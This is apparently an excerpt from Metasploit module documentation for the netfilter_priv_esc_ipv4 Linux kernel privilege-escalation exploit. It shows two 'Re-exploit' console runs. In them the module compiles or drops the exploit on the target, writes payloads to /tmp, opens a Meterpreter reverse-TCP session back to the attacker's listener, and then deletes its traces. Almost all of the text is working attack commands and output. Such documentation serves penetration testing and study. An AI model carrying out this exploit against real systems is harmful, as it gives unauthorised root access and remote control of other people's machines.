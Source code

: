 #### Re-exploit

In this scenario, we already exploit the box, for whatever reason our shell died.  So now we want to re-exploit, but we dont need to run desc again.

    msf exploit(netfilter_priv_esc_ipv4) > set reexploit true
    reexploit => true
    msf exploit(netfilter_priv_esc_ipv4) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [+] libc6-dev-i386 is installed
    [+] gcc-multilib is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/egMfQrrI
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/Yf8CAdMu.c
    [*] Max line length is 65537
    [*] Writing 1326 bytes in 1 chunks of 4699 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:60984) at 2016-09-24 17:29:06 -0400
    [+] Deleted /tmp/egMfQrrI
    [+] Deleted /tmp/Yf8CAdMu.c
    [+] Deleted /tmp/Yf8CAdMu
    
    meterpreter > 

#### Re-exploit w/ pre-compiled binaries

    msf exploit(netfilter_priv_esc_ipv4) > set reexploit true
    reexploit => true
    msf exploit(netfilter_priv_esc_ipv4) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [+] libc6-dev-i386 is installed
    [-] gcc-multilib is not installed.  Compiling will fail.
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/2016_4997_payload
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/SZrv2NOR
    [*] Max line length is 65537
    [*] Writing 8456 bytes in 1 chunks of 22023 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:60996) at 2016-09-24 20:47:03 -0400
    
    meterpreter > 
